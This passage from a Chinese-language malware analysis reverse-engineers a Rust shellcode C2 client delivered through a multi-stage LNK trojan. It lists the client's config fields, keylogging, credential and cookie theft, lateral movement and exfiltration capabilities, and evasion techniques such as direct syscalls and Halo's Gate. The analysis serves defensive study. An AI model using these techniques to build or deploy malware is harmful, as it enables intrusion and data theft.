

用十六进制编辑器查看文件，发现没有文件头——这个文件是纯粹的 Shellcode，被前文提到的加载器直接注入到内存里执行，所以 DIE 这类工具无法直接分析。


扔到云沙箱里分析一下：虽然检测到了恶意行为，但目前的杀毒引擎均未报毒，而且没有远程 C2 服务器连接，说明这个 Shellcode 实施的是隐蔽的恶意行为。




## 四、静态分析 Shellcode
下面进行静态分析，分析一下到底执行了什么恶意行为。
逆向后的二进制文件发现了大量函数，是一个高度封装的大型 Rust Shellcode（约 9MB，静态链接了 TLS 库）。



用AI简单阅读一下反编译的代码，这是一个基于 Rust 编写、使用 HTTPS/TLS 通信的 C2 客户端，采用 ED25519 公钥认证。配置以 Rust 序列化格式嵌入在 shellcode 中，包含了网络能力（HTTPS C2）、加密能力、进程/系统操作能力。

在 0x841790 ~ 0x841830 处解出的 HTTP 请求结构（Rust http::Uri 序列化）：

```text
Scheme:    "rhttps:/Z"  → HTTPS (Rust 
uri::Scheme::Https)
Authority: [已编码 17 字节]
Path:      /0.9, 1.0, 3.0 → 版本化 C2 API 端点
```
结合 StatusCode、HttpBadUri、ProtocolTimeout、HostNotTrusted 等 HTTP 错误处理字符串，确认这是一个完整的 HTTP C2 客户端。

下面对 C2 配置进行逆向

### **C2 配置结构**（位于 `0x834D80` ~ `0x834E50`）：

| 字段                    | 值/含义                         |
| --------------------- | ---------------------------- |
| `project_id`          | 云端项目 ID                      |
| `user_id`             | 受害者标识                        |
| `server_pub` + `sign` | **ED25519 服务器公钥 + 签名**（防中间人） |
| `sleep_time` + `dead` | Beacon 心跳 + 最大静默时间           |
| `tls` + `proxy`       | TLS 配置 + 代理                  |
| `no_check`            | **跳过 TLS 证书验证**              |
| `relay_hosts`         | **C2 中继地址（编码存储）**            |
| `self_delete`         | 执行后自删除                       |
| `lock_name`           | 互斥锁（防多开）                     |
| `pipe`                | 命名管道 IPC                     |

**C2 API 端点**（位于 `0x841790` ~ `0x841830`）：

| 路径片段 | 推测完整路径 |
|----------|------------|
| `/0.9` | `https://<C2_HOST>/api/v0.9` |
| `31.0` (`1.0`) | `https://<C2_HOST>/api/v1.0` |
| `03.0` (`3.0`) | `https://<C2_HOST>/api/v3.0` |

**C2 域名**以编码形式存储在 `0x84179A` ~ `0x8417B0` 之间的字节中，这里利用AI工具判断出来，相关的数据空间均被利用**RustCrypto `chacha20` crate**进行了加密，ChaCha20 是一种流密码，它的核心操作是把密钥、nonce（唯一数）和计数器输入到一个轮函数，生成伪随机密钥流，然后与明文异或得到密文，解密时再做同样的异或即可恢复。

ChaCha20 作为商业流密码，对于较大规模的加密目前尚未有成熟的破解方案，因此如果不采用动态调试的方法去捕获 C2 配置，就很难解密。

但该样本疑似远程服务器已被关闭（在隔离状态的沙箱内检查），运行后核心数据窃取行为未触发，无法捕获 C2 配置。
所以这里就静态分析一下存在的恶意行为函数。

## 恶意行为清单

### 1. 键盘记录 (Keylogger)
```c
0x084A54F: "NoKeyLog"  ← 配置项，说明具备键盘记录功能
```
### 2. 登录凭证窃取 (Credential Theft)
```c
0x0896281: LsaEnumerateLogon   ← 枚举 Windows 登录会话（可 Token 窃取）
0x084377D: typecookiednt       ← HTTP Cookie 解析/窃取
0x0841BFE: token               ← 访问令牌窃取
0x084A98E: edge_idx            ← 浏览器 Edge 数据索引
```
### 3. 屏幕截取 (Screenshot)
```c
0x08364C7: capture             ← 屏幕捕获功能
```
### 4. 横向移动 (Lateral Movement)
```c
0x0845251: SMB                 ← Windows 文件共享
0x010CCCC: RDP                 ← 远程桌面
0x0876430: RDP                 ← 远程桌面（第二处）
0x0845190: tcprelay            ← TCP 中继转发
```
### 5. 数据加密外泄 (Data Exfiltration)
```c
ZIP 压缩: 0x01DFF84, 0x07EBB64, 0x08413FC, 0x084D1EB
```
### 6. 进程操控
```c
0x084BF0C: taskkill /PID /F    ← 强制终止进程
0x834E04: parent_shor          ← 父进程伪装
```
### 7. 逻辑驱动器枚举
```c
0x0895F89: LogicalDr           ← 枚举驱动器
```
### 8. BCryptGenRandom / 加密通信
```c
0x0896330: socket + BCryptGenRandom  ← 加密随机数生成（TLS 握手）
```
### 9. 规避检测
```c
no_check    ← 跳过 TLS 证书验证（绕过 SSL 检查）
self_delete ← 执行后自删除
```

## 五、总结

这次围绕一个典型的 LNK 恶意木马样本展开分析，从最初的快捷方式文件出发，逐步还原了其完整的执行流程和载荷加载机制。本次分析更关注攻击者如何利用 Windows 原生组件、多阶段加载以及内存执行等技术，实现恶意载荷的隐蔽投递与执行。

首先，通过分析 LNK 文件结构，可以发现攻击者并未直接执行恶意程序，而是利用 Windows 自带的 `cscript.exe` 作为第一阶段入口，并通过大量空格隐藏真实参数，使得恶意脚本路径无法在快捷方式属性窗口中直接观察到。这种设计充分利用了系统可信组件（LOLBins）和 LNK 文件结构的特点，提高了样本的隐蔽性。

随后，在恢复隐藏目录后，对 VBScript 脚本进行了分析。脚本本身并没有复杂的恶意逻辑，而是作为整个攻击链的第一阶段 Loader，负责恢复真实载荷、启动后台程序以及打开正常图片作为诱饵。从攻击流程来看，脚本既完成了载荷恢复，又兼顾了用户诱骗，是连接 LNK 与后续恶意程序的重要桥梁。

在对 `photolaunch.exe` 的分析过程中，也经历了一些探索和调整。发现它承担的职责更偏向于加载器，而核心恶意逻辑则隐藏在 `cache.dat` 中。

进一步分析发现，`cache.dat` 并不是普通的数据文件，而是经过自定义 Base64 编码和字符串加密后的 Shellcode。样本通过动态 API 哈希解析、自定义 Base64 字母表、Halo's Gate、直接 Syscall 等技术，实现了较强的静态分析规避能力和用户态 Hook 绕过能力。随后，Shellcode 又实现了完整的内存 PE 加载流程，包括导入表修复、重定位、内存映射以及线程创建等操作，整个攻击链呈现出典型的多阶段内存加载特征。

从攻击入口出发，沿着程序的执行链逐层定位真正的恶意载荷，识别每一阶段承担的职责，最终完整还原整个攻击链。这种分析思路同样适用于其他采用多阶段加载、脚本投递和内存执行技术的恶意样本。
